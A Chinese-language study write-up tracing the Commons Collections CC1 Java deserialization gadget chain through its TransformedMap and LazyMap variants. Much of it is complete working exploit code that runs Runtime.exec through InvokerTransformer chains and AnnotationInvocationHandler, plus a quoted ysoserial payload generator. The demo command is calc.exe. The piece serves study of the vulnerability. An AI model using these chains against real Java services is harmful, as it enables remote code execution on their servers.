





# CommonsCollections1 analyze

# 0x01 TransformMap版本

```java
public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
            }
        }
    }
```

首先我们直接看到`org.apache.commons.collections.functors.InvokerTransformer`​中的`transform()`​方法

这里可以实现rce

我们来看到`InvokerTransformer`​类的构造方法

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

有参构造方法,可以直接把后面rce的参数都写进去

```java
    Runtime runtime = Runtime.getRuntime();
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
    invokerTransformer.transform(runtime);
```

我们成功找到了最终实现RCE的位置,接下来我们需要找的就是如何调用到这个transform来实现RCE

利用`find usage`​/`ctrl shift alt F7`​来查找都在那些地方调用了`transform`​这个方法,我们可以找到一处`TransformedMap`​的`checkSetvalue`​方法

```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

返回了`valueTransformer.transform(value)`​,所以我们要看怎么样把`valueTransformer`​变为我们构造的`invokerTransformer`​对象

可以看到`TransformedMap`​的有参构造方法

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

接收三个参数,把第三个参数赋值给`valueTransformer`​

可以看到这个构造方法是`protected`​属性的,所以我们还需要找是谁调用了这个构造方法

可以找到`decorate`​这个方法

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

然后就可以来构造一个简单的`poc`​

```java
		InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
        Class<TransformedMap> transformedMapClass = TransformedMap.class;
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
        checkSetValueMethod.setAccessible(true);
        checkSetValueMethod.invoke(decorateMap, runtime);
```

但是走到decorate之后就不能够在往下面走了,我们重新回到`chekSetValue`​这里

重新查找一下有谁调用了`checkSetValue`​这个方法

发现在静态类`MapEntry`​中有一个`setValue`​方法调用了`checkSetValue`​方法

往上走发现是类`AbstractMapEntryDecorator`​中的`setValue`​方法

再往上走可以发现是`Map.java`​中的`setValue`​

​所以`setValue`​实际上就是在`Map`​中对一组`entry(键值对)`​进行`setValue`​操作

也就是说我们调用`decorate`​方法的时候,遍历`Map`​数字,就会触发`setValue`​方法,就会触发`checkSetValue`​,从而执行我们准备的`invokeTransfromer.transform`​

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.ws.spi.Invoker;
import java.lang.Runtime;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
//        System.out.println("Hello world!");
    Runtime runtime = Runtime.getRuntime();
//    Class c = Runtime.class;
//    Method method = c.getDeclaredMethod("exec", String.class);
//    method.setAccessible(true);
//    method.invoke(runtime,"calc");
//    通过反射实现RCE
//    通过InvokerTransformer类来弹计算器
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
//        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        Class<TransformedMap> transformedMapClass = TransformedMap.class;
//        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
//        checkSetValueMethod.setAccessible(true);
//        checkSetValueMethod.invoke(decorateMap, runtime);
        hashMap.put("key", "value");
        Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        遍历MAP
        for (Map.Entry entry: decorateMap.entrySet()){
            entry.setValue(runtime);
        }


    }
}
```

那么走到这里,我们的思路就变为`如何找到一个遍历Map的入口,然后触发setValue()方法`​

所以我们从最终实现`setValue`​功能点的类中的`setValue`​开始寻找,也就是`AbstractInputCheckedMapDecorator.class`​中的`setValue`​方法

我们就可以继续从这里开始继续找调用这个`setValue`​方法的方法

这里参考大师傅的文章能够直接搜索的出来,`readObject`​方法调用了`setValue`​,可能因为我这边环境配置的有问题,并没有直接搜索出来 只能手动去找一下这个类了(后来发现是因为放错源码了,对openjdk包的格式不了解导致放错源码所以idea才一直找不到)

​​

我们可以定位到`sun.reflect.annotation`​这个类中的`readObject`​方法,调用了`setValue`​ (openjdk 8u65的源码)

然后我们来分析一下这个`readObject`​触发`setValue`​需要满足什么条件

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

可以看到有两个条件,首先要满足`memberType != null`​和`!(memberType.isInstance(value) || value instanceof ExceptionProxy)`​这两个条件

但是我们得先注意这个类的性质这个类继承了接口`InvocationHandler`​,而`InvocationHandler`​涉及到`Java`​中的动态代理

这里简单说说

```java
JDK的动态代理需要了解两个类
1. InvocationHandler	调用处理程序类
2. Proxy				代理类
InvocationHandler是由代理实例的调用处理程序实现的接口
Object invoke(Object proxy, 方法 Method, Object[] args);

动态代理会自动执行代理类中的invoke方法

参考资料: https://drun1baby.top/2022/06/01/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-04-JDK%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86/
```

接下来就可以构造我们理想的`exp`​

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.Runtime;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
//        System.out.println("Hello world!");
    Runtime runtime = Runtime.getRuntime();
//    Class c = Runtime.class;
//    Method method = c.getDeclaredMethod("exec", String.class);
//    method.setAccessible(true);
//    method.invoke(runtime,"calc");
//    通过反射实现RCE
//    通过InvokerTransformer类来弹计算器
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
//        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        Class<TransformedMap> transformedMapClass = TransformedMap.class;
//        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
//        checkSetValueMethod.setAccessible(true);
//        checkSetValueMethod.invoke(decorateMap, runtime);
        hashMap.put("key", "value");
        Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        遍历MAP
//        for (Map.Entry entry: decorateMap.entrySet()){
//            entry.setValue(runtime);
//        }
        Class cc = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cCon = cc.getDeclaredConstructor(Class.class, Map.class);
        cCon.setAccessible(true);
        Object o = cCon.newInstance(Override.class, decorateMap);
        serialize(o);
        unserialize("p.bin");

    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

但是我们还需要解决三个问题

1. ​`Runtime`​不能够直接序列化
2. ​`setValue()`​方法需要传参问题
3. 达到两个`if`​条件才可以进入`setValue()`​方法

通过普通反射的问题,我们就可以解决`Runtime`​序列化的问题

```java
// 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{String.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);
```

然后再与`.decorate()`​方法相结合可以得到如下`exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class FinEXP {
    public static void EXP() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        // 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("key", "value");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Override.class, transformedMap);


        serialize(o);
        unserialize("p.bin");
    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void main(String[] args) throws IOException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
        EXP();
    }
}
```

继续根据文章进行跟进

看到`AnnotationInvocationHandler`​的`readObject()`​方法中的两个`if`​条件

```java
if (memberType != null)
if (!(memberType.isInstance(value) || value instanceof ExceptionProxy))
```

那这个`memberType`​是什么呢?直接追踪

```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }

annotationType = AnnotationType.getInstance(type);
// 获取传参中注解的成员方法

Map<String, Class<?>> memberTypes = annotationType.memberTypes();


Class<?> memberType = memberTypes.get(name);
```

也就是说第一个`if`​语句,是要求我们传入的注解有成员变量,而我们传入的`Override`​是没有成员变量的

追踪进去可以看到`Override`​是没有成员变量的,而`Target`​和`Retention`​都有成员变量,所以这里将传入的注解替换为`Target`​

过了第一个`if`​之后我们看到第二个`if`​,第二个`if`​实际上就是判断成员变量与`HashMap`​传入的参数是否相等,所以我们只需要修改一下我们的`hashMap.put()`​方法就可以了

虽然成功的绕过了两个`if`​,但是还是没有达到我们想要的效果,往下看发现,`readObject`​中的`setValue()`​方法的参数并不可控,而是直接指定了`AnnotationTypeMismatchExceptionProxy`​这个类,所以这里我们就需要找到一个可控的`setValue()`​的类

我们可以找到一个`ConstantTransformer`​这个类,看到他的构造方法

```java
public ConstantTransformer(Object constantToReturn) {this.iConstant = constantToReturn;}

public Object transform(Object input) {return this.iConstant;}
```

传入一个对象,然后直接复制给`iConstant`​变量,而他的`transform()`​方法也是,无论传入什么都返回`iConstant`​

所以我们来构造我们最终的`exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class FinEXP {
    public static void EXP() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        // 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 控制setValue()方法的参数
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform(Runtime.class);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value", "ppppp");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Target.class, transformedMap);


        serialize(o);
        unserialize("p.bin");
    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void main(String[] args) throws IOException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
        EXP();
    }
}
```

最终效果

​​

利用链流程

```java
gadget chain:
AnnotationInvocationHandler->readObject()

	AbstractInputCheckedMapDecorator->setValue() [Map->setValue()]

		AbstractInputCheckedMapDecorator->checkSetValue()

			TransformValue->checkSetValue()

				InvokerTransformer->transform()
辅助类:
ConstantTransformer
ChainedTransformer
HashMap
```

思维导图

​​

# 0x02 LazyMap版本

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
```

利用点和`TransformMap`​的是一样的,我们直接从不一样的地方开始

直接从`InvokerTransformer->transform()`​继续往上走,走到了`LazyMap->get()`​方法

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里的`factory`​调用了`transform()`​方法,这个`factory`​是`protected final Transformer factory`​ 但是我们可以看到这里有两个`decorate()`​方法

```java
public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }

public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
```

因为上面刚刚分析完`TransformMap`​版本的,所以会对`decorate()`​方法眼熟

接受两个参数,然后传入`LazyMap`​的构造方法,然后就会将传入的`factory`​直接赋值给成员变量`factory`​

所以我们可以先构造一个基础的`exp`​

```java
package org.example;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class SecEXP {
    public static void SecEXP() throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, invokerTransformer);
        Class<LazyMap> lazyMapCLass = LazyMap.class;
        Method lazyMapMethod = lazyMapCLass.getDeclaredMethod("get", Object.class);
        lazyMapMethod.setAccessible(true);
        lazyMapMethod.invoke(decorateMap,runtime);


    }
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        SecEXP();
    }
}
```

成功弹了一个`calc.exe`​,接下来就寻找链首`readObject()`​方法

回到`LazyMap->get()`​方法,寻找谁调用了`get()`​方法

还是`AnnotationInvocationHandler`​这个类中的`invoke()`​方法,可以看到这个方法中存在`memberValues.get(member)`​而且还存在`readObject()`​方法还是一个动态代理的类,也就是说我们只要能够通过动态代理调用这个类,就会触发这个类的`invoke()`​方法

重新看到`readObjec()`​方法

​​

可以看到这里调用了`memberValues->entrySet()`​方法,如果我们将`memberValues`​替换成一个动态代理的对象,调用`entrySet()`​方法的时候,就会触发`invoke()`​方法,就能够触发上面`LazyMap`​的`get()`​方法

这边就直接贴`yso`​的`exp`​了

```java
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}
```

‍

‍

‍

‍

‍

# 0x03 文章参考链接

​`Drunkbaby师傅`​

[https://drun1baby.github.io/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/](https://drun1baby.github.io/2022/06/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8701-CC1%E9%93%BE/)

[https://drun1baby.top/2022/06/01/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-04-JDK%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86/](https://drun1baby.top/2022/06/01/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80%E7%AF%87-04-JDK%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86/)

[https://drun1baby.top/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/](https://drun1baby.top/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/)

‍

‍

‍
